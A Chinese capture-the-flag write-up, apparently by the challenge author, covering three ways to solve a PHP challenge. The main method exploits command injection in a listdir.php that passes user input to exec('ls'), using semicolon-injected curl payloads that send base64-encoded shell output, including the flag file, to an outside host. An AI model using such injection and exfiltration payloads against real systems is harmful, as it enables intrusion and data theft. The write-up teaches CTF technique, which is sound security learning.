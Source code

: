 # 知X堂的php教程

本题有三种方法解题

## 方法一(期望解)

点击教案，发现可以列文件，读文件，但不能列文件夹。尝试读`listdir.php`源码，发现命令注入

```php
<!DOCTYPE html>
<html>
<head>
  <meta http-equiv="content-type" content="text/html; charset=utf-8" />
  <title>教案</title>
</head>
<body>

<?php
include("waf.php");

// 设置目录名称并进行扫描。
$search_dir = $_GET['dirname'];
$title = "教案";

// 防止命令注入
$search_dir = shellWaf($search_dir);

//$contents = scandir($search_dir); 或者使用
exec("ls $search_dir", $contents);

print "<h1>$title</h1><hr/><br/>";

// 列出文件。
foreach ($contents as $item) {
	if ( is_file($search_dir . '/' . $item) AND substr($item, 0, 1) != '.' ) {

	// 打印信息。
	print "<a href=\"displaySourceCode.php?phpfile=$search_dir/$item\">$item</a><br/>";
	}
}
?>

</body>
</html>
```
`waf.php`过滤了`|`，`&`，`<`，`>`。可以用`;`多语句执行shell命令。因为没有回显需要外带。

vps上nc监听，提交以下内容
```
http://47.94.239.194:8082/listdir.php?dirname=/etc;curl%2047.94.239.194:8080?a=`php%20-r%20%22echo%20base64_encode(shell_exec(%27ls%20/%27));%22`
```

获取到
```
GET /?a=YmluCmJvb3QKZGV2CmV0YwpmbGFnZ2dnZ2dnZ2dnZ2dnZ18xc19oZXJlCmhvbWUKbGliCmxpYjMyCmxpYjY0CmxpYngzMgptZWRpYQptbnQKb3B0CnByb2MKcm9vdApydW4Kc2JpbgpzcnYKc3RhcnQuc2gKc3lzCnRtcAp1c3IKdmFyCg== HTTP/1.1
Host: 47.94.239.194:8080
User-Agent: curl/7.58.0
Accept: */*
```

解码
```
bin
boot
dev
etc
flagggggggggggggg_1s_here
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
start.sh
sys
tmp
usr
var
```

读flag
```
http://47.94.239.194:8082/listdir.php?dirname=/etc;curl%2047.94.239.194:8080?a=`php%20-r%20%22echo%20base64_encode(shell_exec(%27cat%20/flagggggggggggggg_1s_here/flag%27));%22`
```

```
GET /?a=U1lDe01hazNfWlhUX3NoKnRfNG9yZVZlcn0K HTTP/1.1
Host: 47.94.239.194:8080
User-Agent: curl/7.58.0
Accept: */*
```

## 方法二

为了降低难度，我没有禁用`/tmp`目录。可以尝试在`/tmp`目录下写`sh`文件，然后执行。
后期有人搅屎，把flag复制到了`/tmp`下，破坏了题目体验。我便将`/tmp`链接到了null，给师傅们带来不便，请谅解。

## 方法三(非预期)

因为`docker-compose`文件没有写好，导致`/proc/self/mounts`泄露了`flag`路径，可以直接读
